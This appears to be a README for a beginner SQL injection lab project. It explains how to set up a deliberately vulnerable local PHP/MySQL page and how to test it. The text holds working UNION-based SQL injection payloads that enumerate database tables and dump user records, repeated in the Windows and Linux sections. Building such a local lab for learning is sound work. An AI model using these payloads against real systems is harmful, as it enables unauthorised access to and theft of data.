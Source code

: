 >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> SQL Injection Tester <<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<


Steps to Implement this program:- ( For Windows users)

1. Git-Clone these 2 files (project.html andd projectdb.php).

2. Download xampp server or wampp server (or any other server where you want to execute html and php file).

3. Start mysql and apache services in server.

4. Create mysql database in php-my-admin with name "project",further in this database create a table with name "users" 
   then you need to insert some random records in the table.

5. Run that file (project.html) through server.

6. Test the basic functionality of this program by typing "srno"(serial number) in text field, 
   if the output is showing the details of that "srno" then the basic functionality  is working correctly.

7. Now, let's test sql injection:-
  
  - Type " a' " in text field, if output is  showing a sql error then this page is sql injected 
    and can be hackable.
  - Now type some queries given below:-

   1. a' and 1=0 union select table_name, table_schema, table_type, table_catalog from information_schema.tables;#
   
   

   2. a' and 1=0 union select table_name, table_schema, table_type, table_catalog from information_schema.tables 
      where table_name like 'user%';#

   3. a' and 1=0 union select concat_WS(':', name), concat_WS(':', srno, city), name, city from user;#


Steps to Implement this program:- ( For Linux users):-

Setting up LAMP(Linux, Apache, Mysql, PHP):-

1- If you have a Linux OS then you have already done the first phase of LAMP which is linux.

2- Further, you have to install :-
  -Apache
  Command - apt-get install apache2
  -Mysql
  Command - apt-get install mysql -server
  -pHp
  Command - apt-get install php7.2 libapache-mod-php7.2php-mysql
  -pHp-my-admin
  Command - apt-get install phpmyadmin

3- Now ,you have to follow some mysql commands:-
  -Create database:-
    Create database project;
  -Select the created database:-
    use project;
  -Create table in database:-
    create table users(srno int(5) primary key, name  varchar(30), city varchar(30));

4- Now git-clone those 2 pages(project.html and projectdb.php) and copy them at following path:-
   var/www/html

5- Now run project.html in browser (localhost/project.html) 

6-  Now, let's test sql injection:-
  
  - Type " a' " in text field, if output is  showing a sql error then this page is sql injected 
    and can be hackable.
  - Now type some queries given below:-

   1. a' and 1=0 union select table_name, table_schema, table_type, table_catalog from information_schema.tables;#

   2. a' and 1=0 union select table_name, table_schema, table_type, table_catalog from information_schema.tables 
      where table_name like 'user%';#

   3. a' and 1=0 union select concat_WS(':', name), concat_WS(':', srno, city), name, city from user;#
    
